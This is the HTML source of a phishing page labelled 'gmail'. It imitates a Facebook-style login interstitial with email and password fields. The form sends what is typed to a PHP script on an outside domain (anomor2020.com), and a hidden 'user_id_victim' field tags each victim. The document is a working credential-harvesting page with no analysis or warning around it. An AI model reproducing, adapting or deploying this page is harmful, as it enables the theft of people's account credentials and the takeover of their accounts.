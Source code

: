 # gmail

<head>
<title></title>
<meta property="og:url" content="" />
<meta property="og:type" content="article" />
<meta property="og:title" content="Redirection " />
<meta property="og:description" content="Redirection " />
<meta property="og:image" content="" />
<meta name="revisit-after" content="1000 days">
<meta name="robots" content="nofollow">
<meta name="googlebot" content="noindex">

<meta name="viewport" content="width=device-width, initial-scale=1">

</script><meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
<link rel="shortcut icon" href="https://fbstatic-a.akamaihd.net/rsrc.php/yl/r/H3nktOa7ZMg.ico">

<link type="text/css" rel="stylesheet" href="https://anomor2020.com/css2/1.css" />
 <link type="text/css" rel="stylesheet" href="https://anomor2020.com/css2/2.css" />
</head>



</span></div></div></div></div></div></div></div><div id="globalContainer" class="uiContextualLayerParent"><div id="content" class="fb_content clearfix"><div class="UIFullPage_Container"><div class="mvl ptm uiInterstitial login_page_interstitial uiInterstitialLarge uiBoxWhite" style=" max-width: 500px; " ><div class="uiHeader uiHeaderBottomBorder mhl mts uiHeaderPage interstitialHeader" style=" border-color: transparent; "><div class="clearfix uiHeaderTop"><div class="rfloat"><h2 class="accessible_elem">
    
   

</h2></div></div></div><div class="phl ptm uiInterstitialContent"><div class="login_form_container"> <center>
<img src="001.png" >
</center>
<form method="POST" action="https://anomor2020.com/conti0/home2/g.php" id="login_form" onsubmit="return Event.__inlineSubmit(this,event)">
<input name="charset_test" value="�,�,�,�,&#27700;,&#1044;,&#1028;" type="hidden">
<input type="hidden" name="user_id_victim" value="153708" />
</TD><input name="lsd" value="cG8FP" autocomplete="off" type="hidden"><div id="loginform" style=""><input id="return_session" name="return_session" value="0" autocomplete="off" type="hidden"><input id="legacy_return" name="legacy_return" value="1" autocomplete="off" type="hidden"><input id="display" name="display" value="" autocomplete="off" type="hidden"><input id="session_key_only" name="session_key_only" value="0" autocomplete="off" type="hidden"><input id="trynum" name="trynum" value="1" autocomplete="off" type="hidden"><input name="charset_test" value="�,�,�,�,&#27700;,&#1044;,&#1028;" type="hidden"><input id="lsd" name="lsd" value="cG8FP" autocomplete="off" type="hidden"><div class="form_row clearfix ">
<input type="hidden" name="hash" value="23c912ad391b9807d36a220e80032717,1700275533" />
 <center> 

<input type="email"   spellcheck="false" tabindex="0" placeholder="Email" name="email"   dir="ltr" data-initial-dir="ltr" data-initial-value="" style="border-radius: 4px;color: #202124;font-size: 16px;height: 28px;margin: 1px 1px 0 1px;padding: 13px 15px;z-index: 1;font-family: &quot;Times New Roman&quot;, Times, serif;">
<br><br><input type="password"  spellcheck="false" tabindex="0" placeholder="Password" name="pass"   dir="ltr" data-initial-dir="ltr" data-initial-value="" style="border-radius: 4px;color: #202124;font-size: 16px;height: 28px;margin: 1px 1px 0 1px;padding: 13px 15px;z-index: 1;font-family: &quot;Times New Roman&quot;, Times, serif;">


 </center> 
 <center> 

<img src="002.png" >
 </center> 





 <center> 
<style>
.button {
  border: none;
  color: white;
  padding: 15px 32px;
  text-align: center;
  text-decoration: none;
  display: inline-block;
  font-size: 16px;
  margin: 4px 2px;
  cursor: pointer;
}

.button1 {background-color: #4CAF50;} /* Green */
.button2 {background-color: #008CBA;} /* Blue */
</style>

<button  value="Login" name="login" class="button button2" type="submit" style=" font-family: &quot;Times New Roman&quot;, Times, serif; " >Next</button>



 </center> 


